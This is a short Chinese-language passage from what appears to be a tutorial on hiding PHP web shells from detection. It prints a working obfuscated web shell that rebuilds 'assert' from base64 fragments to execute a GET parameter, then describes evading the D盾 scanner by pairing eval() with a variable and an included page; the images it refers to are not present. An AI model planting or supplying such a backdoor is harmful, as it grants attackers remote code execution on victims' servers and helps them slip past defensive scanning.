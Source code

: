 **Base64绕过**

```php
<?php
$a='YXN';
$b='zZX';
$c='J0';
$D=$a.$b.$c;
$x=base64_decode($D);
$x($_GET['a']);
?>
```
`YXNzZXJ0` 是 `assert` 的base64编码，base64_decode()是base64解密函数

---

## BypassD盾

少壮不努力，老大遇阿D

拿`eval()`举例
**当eval()加一个变量时:**
![](img/25.png)
威胁等级为4，当场被🔪。


**当eval()加一个变量并同时包含一个页面时:**
![](img/27.png)
